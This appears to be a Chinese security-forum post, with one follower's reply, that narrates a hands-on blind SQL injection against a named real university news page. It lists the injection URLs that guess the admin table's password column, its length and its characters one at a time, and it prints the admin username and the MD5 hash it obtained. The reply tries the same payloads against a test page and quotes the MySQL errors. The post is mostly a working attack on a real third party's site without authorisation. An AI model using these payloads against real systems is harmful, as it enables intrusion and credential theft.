 # sql 怎么还是如此之多呢？

> 原文：[`www.pediy.com/kssd/pediy12/114881.html`](https://www.pediy.com/kssd/pediy12/114881.html)

一次 sql 注入实例
目标：http://www.ieidjtu.edu.cn/news.asp?id=147 只是随便测试找到的，本想直接使用 啊 D 直接搞定，但是发现 啊 D 的结果不是很满意，
 很是悲哀，不能猜到密码字段，本想放弃，但总觉得太可惜了，还是发扬一下 黑客精神吧，手工操作，但用户名字段的不是很复杂，所以猜想密码字段也不会是很复杂，因此开猜..
http://www.ieidjtu.edu.cn/news.asp?id=147%20and%20(select%20count(pword)%20from%20admin)>0 失败
http://www.ieidjtu.edu.cn/news.asp?id=147%20and%20(select%20count(pws)%20from%20admin)>0 失败

但怎么说人品还是不错的，当
http://www.ieidjtu.edu.cn/news.asp?id=147%20and%20(select%20count(pass)%20from%20admin)>0 页面返回正常了 千里之行刚刚开始，猜长度吧 既然手动猜解，人脑总比工具灵活吧，这也是人为人，工具是工具的主要原因，呵呵，直接判断是否是 32 位或者 16 位。因为一般都是加密的嘛，现在真是很少有明文的，但遇到明文是我的人品差...
没办法人品就是好
http://www.ieidjtu.edu.cn/news.asp?id=147%20and%20(select%20len(pass)%20from%20admin)=32 返回正常 

猜测内容吧，还等啥呀，开始第一位

先判断是否是数字 0-9  Ascii  48-57  
                 a-z  Ascii  97-122
                 A-Z  Ascii  65-90
http://www.ieidjtu.edu.cn/news.asp?id=147%20and%20(select%20top%201%20asc(mid(pass,1,1))%20from%20admin)>48 正常

http://www.ieidjtu.edu.cn/news.asp?id=147%20and%20(select%20top%201%20asc(mid(pass,1,1))%20from%20admin)>57 失败

http://www.ieidjtu.edu.cn/news.asp?id=147%20and%20(select%20top%201%20asc(mid(pass,1,1))%20from%20admin)>53 正常 

http://www.ieidjtu.edu.cn/news.asp?id=147%20and%20(select%20top%201%20asc(mid(pass,1,1))%20from%20admin)>55 正常 

http://www.ieidjtu.edu.cn/news.asp?id=147%20and%20(select%20top%201%20asc(mid(pass,1,1))%20from%20admin)>56 异常 说明 第一位是 56 对应是 8

开始第二位
http://www.ieidjtu.edu.cn/news.asp?id=147%20and%20(select%20top%201%20asc(mid(pass,2,1))%20from%20admin)>57 正常 说明不是数字

http://www.ieidjtu.edu.cn/news.asp?id=147%20and%20(select%20top%201%20asc(mid(pass,2,1))%20from%20admin)>97 正常 说明是小写字母

http://www.ieidjtu.edu.cn/news.asp?id=147%20and%20(select%20top%201%20asc(mid(pass,2,1))%20from%20admin)>122 异常

http://www.ieidjtu.edu.cn/news.asp?id=147%20and%20(select%20top%201%20asc(mid(pass,2,1))%20from%20admin)>110 异常

http://www.ieidjtu.edu.cn/news.asp?id=147%20and%20(select%20top%201%20asc(mid(pass,2,1))%20from%20admin)>102 异常

http://www.ieidjtu.edu.cn/news.asp?id=147%20and%20(select%20top%201%20asc(mid(pass,2,1))%20from%20admin)>100 异常

http://www.ieidjtu.edu.cn/news.asp?id=147%20and%20(select%20top%201%20asc(mid(pass,2,1))%20from%20admin)>98 正常

http://www.ieidjtu.edu.cn/news.asp?id=147%20and%20(select%20top%201%20asc(mid(pass,2,1))%20from%20admin)>99 正常

http://www.ieidjtu.edu.cn/news.asp?id=147%20and%20(select%20top%201%20asc(mid(pass,2,1))%20from%20admin)=100 正常 说明是 100 第二位是 100  对应 ascii 码 d

下面就不做了 直接使用啊 D 将猜到的 密码字段直接加入 设置中 重新扫描就可以了，最终得到 用户名 admin 密码 8de3500fd334b6b7180a2156cfa5132e

但是也很悲剧 这个 md5 不能破解 郁闷了 没有办法 呵呵

看了,在我自己的网站作下测试，建了个无 ' 封闭的值，做员工薪水列表的下拉选择表 
[`coolcall.0fees.net/attack/`](http://coolcall.0fees.net/attack/)
在下拉列表选定值后提交，拦截数据进行修改

一、提交： 2 or (select count(salary) from num)>0
运行成功，员工列表内容全列出

二、打入下面的命令，出错了
提交： 2 or (select len(salary) from num)=32

Error performing query: Column count of mysql.proc is wrong. Expected 20, found 16. The table is probably corrupted
错误执行查询：对 mysql.proc 的列计数错误。预期 20，发现 16。该表可能已损坏
是版本问题吗？

三、不管上面，继续猜 num 表的 salary 列中的字符
提交： 2 or (select top 1 asc(mid(salary,1,1)) from num)>48
出现错误，这不稀奇了，因为含有","的特殊字符
Error performing query: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '1 asc(mid(salary,1,1)) from num)>48' at line 1
